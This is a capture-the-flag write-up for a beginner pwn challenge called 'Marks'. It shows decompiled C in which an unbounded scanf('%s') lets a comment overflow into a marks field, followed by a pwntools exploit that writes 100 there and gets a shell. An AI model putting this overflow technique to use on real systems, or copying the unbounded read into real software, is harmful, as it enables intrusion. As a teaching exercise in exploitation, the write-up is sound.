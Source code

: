 ```yaml
---
linkTitle: Marks
title: Beginner - Marks
type: docs
---
```


* Author : P3g4su5   
* Difficulty : Beginner   
* Description : Score 100/100 to pass this exam 
* Attachments : [marks.zip](https://github.com/Parth-Badgujar/BackdoorCTF-23-Pwn/raw/main/Marks/public/marks.zip)  

## Writeup

This was a simple challenge were we had to overflow into that `marks` variable and set its value to `100` to gain the shell 

Here is the decompiled code by IDA: 

```C
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  char v5[32]; // [rsp+0h] [rbp-70h] BYREF
  __int64 v6; // [rsp+20h] [rbp-50h] BYREF
  __int64 v7; // [rsp+60h] [rbp-10h] BYREF
  unsigned __int64 v8; // [rsp+68h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  v3 = time(0LL);
  srand(v3);
  puts("Enter your details to view your marks ...");
  printf("Roll Number : ");
  __isoc99_scanf("%d", &v7);
  printf("Name : ");
  __isoc99_scanf("%s", v5);
  puts("Please Wait ...\n");
  usleep(0xF4240u);
  HIDWORD(v7) = rand() % 75;
  printf("You got %d marks out of 100\n", HIDWORD(v7));
  puts("Any Comments ?");
  __isoc99_scanf("%s", &v6);
  puts("Thanks !");
  if ( HIDWORD(v7) == 100 )
  {
    puts("Cool ! Here is your shell !");
    system("/bin/sh");
  }
  else
  {
    puts("Next time get 100/100 marks for shell :)");
  }
  return 0;
}
```
* As you can see `v7` is set to `rand() % 75` so its value will always be less than 75. After asking for name, roll number and showing marks, it asks for a comment from user in `scanf("%s", &v6)` format and `%s` can take any input of arbitary length thus leading to buffer overflow. 

* In actual source code all the metadata `name`, `roll`, `comment` and `marks` were stored in same struct. 

```c
typedef struct marks
{
    char name[32] ;
    char comment[64]; 
    int roll ;
    int marks ;    
} data ;
```

The first `64 bytes` of data will go into `comment`, the next `4 bytes` in `roll` and the next `4 bytes` into `marks`, so the offset after which you can overflow into marks will be `68`   

## Exploit 

Here is the complete exploit 

```python 
from pwn import *

p = process('./chal')

p.sendlineafter("Number : ", '22116969')
p.sendlineafter("Name : ", 'some_name')
p.sendlineafter("Comments ?", cyclic(68) + p32(100)) 

p.interactive()
```
--- 

#### Flag : `flag{Y0u_ju57_0v3rfl0wed_y0ur_m4rk5}`      



